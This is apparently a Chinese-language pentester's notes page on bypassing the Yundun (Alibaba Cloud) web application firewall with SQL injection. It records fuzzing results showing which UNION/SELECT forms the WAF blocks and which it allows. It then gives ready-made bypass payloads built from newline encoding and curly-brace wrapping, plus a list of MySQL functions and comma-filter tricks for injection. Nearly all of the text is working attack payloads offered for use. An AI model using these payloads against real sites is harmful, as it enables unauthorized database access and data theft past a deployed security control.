 

## 2. Fuzzing

**云盾**

```sql
union+select 拦截 
select+from 不拦截 
select+from+表名 拦截 
union(select) 不拦截 所以可以不用在乎这个union了。 
union(select user from ddd) 拦截 
union(select%0aall) 不拦截 
union(select%0aall user from ddd) 拦截 
fuzz下select%0aall与字段之间 + 字段与from之间 + from与表名之间 + 表名与末尾圆括号之间可插入的符号。 
union(select%0aall{user}from{ddd}) 不拦截
crlf:
%0d=/r	回车符号
%0a=/n	换行符号
"/r/n"------0d0a	windows 常用
```

**Bypass Payload：**

```sql
1 union(select%0aall{x users}from{x ddd}) 
1 union(select%0adistinct{x users}from{x ddd}) 
1 union(select%0adistinctrow{x users}from{x ddd})
```

**可运用的sql函数&关键字：**

```sql
MySQL：
union distinct
union distinctrow
procedure analyse()
updatexml()
extracavalue()
exp()
ceil()
atan()
sqrt()
floor()
ceiling()
tan()
rand()
sign()
greatest()
字符串截取函数
Mid(version(),1,1)
Substr(version(),1,1)
Substring(version(),1,1)
Lpad(version(),1,1)
Rpad(version(),1,1)
Left(version(),1)
reverse(right(reverse(version()),1)
字符串连接函数
concat(version(),'|',user());
concat_ws('|',1,2,3)
字符转换
Char(49)
Hex('a')
Unhex(61)
过滤了逗号
(1)limit处的逗号：
limit 1 offset 0
```
